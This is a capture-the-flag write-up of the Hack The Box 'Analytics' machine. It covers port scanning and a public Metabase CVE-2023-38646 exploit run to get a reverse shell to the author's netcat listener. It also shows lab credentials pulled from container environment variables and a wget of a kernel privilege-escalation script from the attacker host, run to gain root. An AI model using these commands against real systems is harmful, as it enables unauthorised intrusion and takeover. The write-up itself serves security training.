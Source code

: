 # HTB - Analytics

#### Ip: 10.10.11.233
#### Name: Analytics
#### Rating: Easy

----------------------------------------------------------------------

![Analytics.png](../assets/analytics_assets/Analytics.png)

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.11.233 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-08 11:46 CST
Nmap scan report for 10.10.11.233
Host is up (0.082s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.83 seconds
```

Lets add analytical.htb to `/etc/hosts`

Checking out the site on port 80 we find a largely static page:

analytics_site.png

Interestingly though, the login page redirects to data.analytical.htb, so lets also add that to `/etc/hosts`

Navigating to this page presents me with a login to metabase:

analytics_metabase_login.php

Searching for exploits I find: https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646 which details vulnerabilities we can chain together to achieve RCE on the target.

First, we can navigate to http://data.analytical.htb/api/session/properties to obtain the setup-token we'll need:

analytics_setup_token.png

Next, I searched for public exploits for the vulnerability and found: https://github.com/securezeron/CVE-2023-38646/blob/main/CVE-2023-38646-Reverse-Shell.py

I can run the script with will fetch the setup-token, and spawn a reverse shell in my nc listener:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ python CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb/api/session/properties --lhost 10.10.14.16 --lport 443
```

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.233] 40070
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
9431f8dc1d11:/$ whoami
whoami
metabase
```
Not seeing much on the target, I run linpeas and discover I've landed in a Docker container:

```
╔══════════╣ Container details
═╣ Is this a container? ........... docker
```

Knowing this lets run the `env` command to see if we can extract more information:

```
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

Nice, here is a new user and their password. lets use these to SSH in as metalytics:

```
┌──(ryan㉿kali)-[~/HTB/Analytics]
└─$ ssh metalytics@10.10.11.233
```

From here I can grab the user.txt flag:

analytics_user.png

### Privilege Escalation

Looking around and not seeing much, I went back to the basics and ran `uname -a` to check out the kernel version:

```
metalytics@analytics:/tmp$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Searching for exploits I find: https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629


I can copy the exploit to the target and run it:
```
metalytics@analytics:/tmp$ wget 10.10.14.16/ubuntu_6.2.0_exploit.sh
--2024-03-08 18:59:42--  http://10.10.14.16/ubuntu_6.2.0_exploit.sh
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [text/x-sh]
Saving to: ‘ubuntu_6.2.0_exploit.sh’

ubuntu_6.2.0_exploit.sh         100%[====================================================>]     558  --.-KB/s    in 0.005s  

2024-03-08 18:59:42 (117 KB/s) - ‘ubuntu_6.2.0_exploit.sh’ saved [558/558]

metalytics@analytics:/tmp$ chmod +x ubuntu_6.2.0_exploit.sh 
metalytics@analytics:/tmp$ ./ubuntu_6.2.0_exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# whoami
root
```

I can then grab the final flag:

analytics_root.png

Thanks for following along!

-Ryan

-----------------------------------------------

